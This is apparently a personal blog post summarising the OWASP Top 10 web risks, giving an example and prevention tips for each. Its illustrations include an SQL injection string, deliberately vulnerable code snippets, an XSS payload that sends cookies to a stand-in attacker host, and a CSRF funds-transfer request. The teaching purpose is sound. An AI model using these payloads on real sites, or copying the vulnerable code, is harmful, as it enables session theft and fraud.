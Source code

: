 
Security: Owasp Top 10
==========================

.. post:: Jul 05, 2017
   :tags: security
   :category: ComputerScience

The `Open Web Application Security Project (OWASP) <https://www.owasp.org>`_ is an open community dedicated to enabling organizations to develop, purchase, and maintain applications and APIs that can be trusted.
The goal of the Top 10 project is to raise awareness about application security by identifying some of the most critical risks facing organizations. 
This blog is based on 2013 version, while 2017 version will come very soon.

.. contents::

1. Injection
============

Injection has many types:

* SQL injection
* NoSQL injection
* Command injection
* Code injection
* Path traversal
* ORM injection
* XML injection
* XPath injection

Example
----------
A web server makes a query string like the following:

.. code-block:: c

    String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";

The attacker modifies the ‘id’ parameter value in her browser to send: ' or '1'='1.

How to prevent
------------------

* White-list (untrusted data): What input do we trust? Does it adhere to expected pattern?
* Use safe API which provides parameterized interface
* Escape special character
* Positive or 'white list' input validation

2. Broken authentication and session management
=========================================================

It means session management assets like user credentials and session IDs are not properly protected.

Example
----------

If a web site put the token into the query string:

http://example.com/sale/saleitems;jsessionid=2P0OC2JSNDLPSKHCJUN2JV?dest=Hawaii

Then if the user share the link with others, the token/session id will be used by others.

There are other ways to hack the authentication and session management system.

Auth cookie theft: 

* Exploit an XSS risk
* Retrieve it from the victim's PC
* Sniff it over an insecure connection

Account management attack:

* Brute force the login
* Exploit password reset
* Discover weak credentials

Session ID theft:

* Copy and paste a URL with it
* Send it via an insecure email 
* Retrieve it from a log

How to prevent
-----------------

Protect the cookies:

* Use the HttpOnly flag (HttpOnly is an additional flag included in a Set-Cookie HTTP response header, If the HttpOnly flag (optional) is included in the HTTP response header, the cookie cannot be accessed through client side script)
* Make sure they're flagged as 'secure'

Decrease the window of risk:

* Expire sessions quickly
* Re-challenge the user on key actions

Other ways:

* Authentication must be over TLS
* Passwords policy
* "Secure" error messages
* Multiple-factor authentication
* CAPTCHA
* Block accounts
* Restore passwords
* No session identifier in URL
* Use TLS
* Logout
* Close browser window
* Secure passwords storage: Do not forget salt; SHA-256, SHA-512; PBKDF2, bcrypt, scrypt

3. Cross-site scripting (XSS)
==============================
XSS has the following types:

* Stored XSS
* Reflected XSS
* DOM Based XSS

Example
-----------

If the web server generate the content by using following code:

.. code-block:: c

    (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in his browser to:

.. code-block:: html

    '><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi? foo='+document.cookie</script>'.

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

How to prevent
----------------

* Validation: Xxs-filters; Secure-filters; Xss; Validator-js
* HttpOnly cookies
* Helmet-csp (Content Security Policy)

4. Insecure direct object references
=====================================

Insecure direct object reference has the vulnerability to let the hacker get to know the internal system design.

Example
--------

If the web server has the following code:

.. code-block:: c

    var messageId = req.params.messageId;
    messagesDAO.getById(messageId, function(error, message)
    {
        return res.render("message", message);
    }

The hacker can use:
http://site.com/view-message?messageId=1

How to prevent
------------------

* Use per user or session indirect object references.
* Check permissions on all application's layers
* Testing & Code review

5. Security misconfiguration
==============================

Example
----------

The app server admin console is automatically installed and not removed. 
Default accounts aren’t changed. 
Attacker discovers the standard admin pages are on your server, logs in with default passwords, and takes over.

How to prevent
---------------

Use following tools:

* Ansible, chef, puppet
* Helmet
* Hpp
* Cors
* Node-ipgeoblock
* Express-limiter
* Safe-regex

6. Sensitive data exposure
============================

Relevant types:

* Sniffing
* Insecure cryptographic storage

Example
----------

The password database uses unsalted hashes to store everyone’s passwords. 
A file upload flaw allows an attacker to retrieve the password file. 
All of the unsalted hashes can be exposed with a rainbow table of precalculated hashes.

Insufficient use of SSL

* login not loaded over HTTPS
* Mixed mode
* Cookies not sent securely

Bad crypto

* Incorrect password storage
* Poor protection of keys
* Weak algorithm chosen

Other exposure risks

* Browser auto-complete
* Leaked via logs
* Disclosure via URL

How to prevent
------------------

* Always use TLS (TLS 1.1 and TSL 1.2)
* Secured control only over HTTPS
* HTTP content in HTTPS pages
* Use cookie's Secure attribute
* Minimize sensitive data collection
* Use strong crypto storage

Use Javascript Cryptography:

* Crypto 
* Sjcl (Stanford)
* Crypto-js
* Node-forge
* Web Cryptography API
* PolyCrypt

7. Missing function level access control
==========================================

Relevant types:

* Security through obscurity
* Checking permissions only in UI
* Missing permissions check in helper services

Relevant questions:

* Does the UI show navigation to unauthorised functions?
* Are server side authentication or authorization checks missing?
* Are server side checks done that solely rely on information provided by the attacker?
* Are system or diagnostic resources accessible without proper authorisation?
* Will "force browsing" disclosure unsecured resources?

Example
----------

Attacker uses automated tool like OWASP ZAP or SQLMap to detect vulnerabilities and possibly exploit them.

How to prevent
------------------

* Check permission on all application's layer
* Authentication middleware
* Testing & Code review
* Define a clear authorisation model
* Check for forced browsing
* Always test unprivileged roles

8. Cross-site request forgery (CSRF)
=======================================

CSRF indicates token vulnerability.

Example
------------

The application allows a user to submit a state changing request that does not include anything secret. 

For example: 

.. code-block:: c

    http://example.com/app/transferFunds?amount=1500 &destinationAccount=4673243243 

So, the attacker constructs a request that will transfer money from the victim’s account to the attacker’s account, and then embeds this attack in an image request or iframe stored on various sites under the attacker’s control: 

.. code-block:: c

    <img src="http://example.com/app/transferFunds? amount=1500&destinationAccount=attackersAcct#“ width="0" height="0" /> 

If the victim visits any of the attacker’s sites while already authenticated to example.com, these forged requests will automatically include the user’s session info, authorizing the attacker’s request.

BTW, iframe means inline frame is used to embed another document within the current HTML document.

How to prevent
------------------

* Include the unique token in a hidden field. 
This includes the value in the body of the HTTP request, avoiding its exposure in the URL.
* Employ anti-forgery tokens
* Validate the referrer
* Use csurf

9. Using components with known vulnerabilities
=================================================

If you build your app by using 3rd party components, the know vulnerabilities of the components impact you.
See following links:

* https://nodesecurity.io
* https://snyk.io
* http://cve.mitre.org
* https://nvd.nist.gov
* https://www.exploit-db.com
* https://www.cvedetails.com

10. Unvalidated redirects and forwards
=======================================

Unvalidated url redirects and forwards may also cause problems.

Example
-----------

Let's say if your web site contains following code:

.. code-block:: c

    app.get("/login", function(req, res, next) {
        return res.redirect(req.query.url);
    });

http://site.com/login?url=/admin

Hacker can provide a url which looks exactly the same as the original web page which asks for user name/password.

How to prevent
------------------

* Use a URL whitelist
* Use indirect references
* Check the referrer
* Do not use redirects
* Do not use parameters to create redirect link
* Validate destination parameter: valid-url

References
============

Other valuable references to look:

* https://github.com/OWASP/NodeGoat
* https://github.com/cr0hn/vulnerable-node
* https://github.com/clarkio/vulnerable-app
* https://github.com/toolness/security-adventure
* https://github.com/bkimminich/juice-shop
* https://www.owasp.org/index.php/

*Written by Binwei@Oslo*

